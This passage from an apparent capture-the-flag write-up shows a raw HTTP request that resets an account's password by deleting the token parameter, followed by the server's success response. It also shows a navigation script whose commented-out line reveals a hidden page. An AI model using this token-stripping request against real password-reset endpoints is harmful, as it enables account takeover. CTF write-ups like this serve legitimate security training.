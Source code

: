 We need to manually remove the &token= from the request:

```
POST /web4-1c1a2bce092184a2acfcd7ddbd00abffe1c0a587/update_passwd_token HTTP/1.1
Host: gamebox1.reply.it
Content-Length: 60
Connection: close

username=adragos.username.1337&password=mysecretpassword
```

=>

```
HTTP/1.1 302 FOUND
Server: nginx/1.22.1
Date: Sun, 15 Oct 2023 16:24:40 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 369
Connection: close
Location: /web4-1c1a2bce092184a2acfcd7ddbd00abffe1c0a587/update_passwd_token?status=Password+Updated!
```

And after login in we arrive at `/auth/index.php`, which is a .php site, different from the Python source.

In nav.js we find the following path:

```js
$(document).ready(function () {
    // Array di oggetti per definire le sezioni del navbar
    var sections = [
        { title: "Becchi", url: "index.php", icon: "ðŸ" },
        { title: "Supplements", url: "supplements.php", icon: "ðŸ’Š" }
        // { title: "Make Becco Stronger", url: "mbs.php", icon: "ðŸ’ª" }
    ];

    // Funzione per generare il codice HTML delle sezioni del navbar
    function generateNavbarSections() {
        var html = "";
        for (var i = 0; i < sections.length; i++) {
            var section = sections[i];
            var activeClass = window.location.pathname === section.url ? "active" : "";
            html += '<li class="nav-item ' + activeClass + '">';
            html += '<a class="nav-link" href="' + section.url + '">' + section.icon + ' ' + section.title + '</a>';
            html += '</li>';
        }
        return html;
    }

    // Carica dinamicamente le sezioni del navbar
    $("#navbarList").html(generateNavbarSections());
});
```
